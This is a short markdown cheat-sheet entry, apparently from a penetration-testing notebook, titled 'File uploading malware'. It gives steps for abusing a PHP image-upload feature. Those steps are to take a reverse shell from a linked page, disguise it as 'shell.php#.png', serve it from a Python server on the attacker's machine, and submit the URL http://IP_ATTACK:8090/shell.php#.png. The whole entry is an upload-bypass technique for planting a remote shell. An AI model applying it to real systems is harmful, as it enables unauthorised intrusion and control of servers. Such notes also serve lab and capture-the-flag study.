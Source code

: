 ```yaml
---
title: File uploading malware 💣
---
```


- **Shell shenanigans**:
  - If you can upload images and its working with php you can try this:
  - 1st get a reverse shell like one in [Reverse shells 👾](reverse_shells.md)
  - Then create a file like `shell.php#.png`
  - Serve a python server
  - Paste the path to it:

```shell
http://IP_ATTACK:8090/shell.php#.png
```
